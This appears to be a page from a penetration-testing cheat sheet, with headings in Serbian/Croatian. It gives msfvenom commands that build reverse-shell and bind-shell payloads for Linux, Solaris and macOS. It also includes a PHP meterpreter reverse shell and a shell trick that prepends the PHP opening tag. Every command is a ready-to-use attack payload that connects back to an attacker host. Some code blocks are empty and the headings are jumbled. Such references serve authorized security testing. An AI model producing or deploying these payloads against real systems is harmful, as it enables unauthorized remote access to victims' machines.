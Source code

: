 ## Linux Payloadi

### Reverse Shell

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f elf > reverse.elf
msfvenom -p linux/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf
```

### Bind Shell

{% code overflow="wrap" %}
```bash
msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f elf > bind.elf
```
{% endcode %}

### SunOS (Solaris)

{% code overflow="wrap" %}
```
```
{% endcode %}

```bash
msfvenom --platform=solaris --payload=solaris/x86/shell_reverse_tcp LHOST=(ATTACKER IP) LPORT=(ATTACKER PORT) -f elf -e x86/shikata_ga_nai -b '\x00' > solshell.elf
```

{% code overflow="wrap" %}
```
```
{% endcode %}

```bash
msfvenom -p osx/x86/shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f macho > reverse.macho
```

### **Bind Shell**

{% code overflow="wrap" %}
```bash
msfvenom -p osx/x86/shell_bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f macho > bind.macho
```
{% endcode %}

## **Veb bazirani payloadi**

### **PHP**

#### Obrnuti šel

{% code overflow="wrap" %}
```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```
{% endcode %}
